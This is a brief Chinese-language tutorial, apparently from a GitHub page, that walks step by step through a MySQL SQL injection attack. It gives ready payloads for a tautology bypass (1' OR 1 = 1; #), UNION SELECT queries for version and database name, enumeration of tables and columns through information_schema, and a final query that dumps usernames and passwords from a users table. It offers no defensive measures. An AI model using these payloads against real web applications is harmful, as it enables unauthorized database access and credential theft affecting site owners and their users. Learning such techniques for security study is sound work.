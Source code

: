Low-level
---
通常 sql 語法會長這樣：sql = SELECT * FROM (tabel_name) WHERE (column_name) = '$id';

SQL injection 旨在正常的 sql 語法中執行惡意的 sql 語法來得到敏感資料(i.g. 帳號密碼...)。

Step 1.
---

可以更改上面 '$id' 的部分，改成：1' OR 1 = 1; #

(p.s. 有時候會因為'導致 query 失敗，要注意！)

因為 OR 的關係，導致該語法會 query 所有的使用者出來。

Step 2.
---

由於我們會想知道更多資訊，會使用 UNION SELECT ... 去做二次查詢

因為 SELECT 出來的變數數量會被前台顯示限制住，所以可以會加入 group_concat(variable1, variable2, ...) 全部顯示出來。

因此可以將 '$id' 改成：UNION SELECT version(), database(); # 來查詢資料庫

Step 3.
---

MySQL 5.0 以上存在 information_schema，可以利用 information_schema 獲得資料庫進一步資訊

找出資料庫裡所對應的所有資料表：SELECT table_name FROM information_schema.tables

套用蓋年可以寫成：1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema = database(); #

上面語法可以看到系統會使用到那些 Table 進行 query，接著再根據 Table 去查該 Table 有哪些欄位(column)：

改寫成：1' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'; #

知道使用哪張 Table，又知道 Table 裡面有哪些欄位，那就可以來查想要的資料了

查看帳號和密碼：1' UNION SELECT 1, group_concat(user, password) FROM users; #
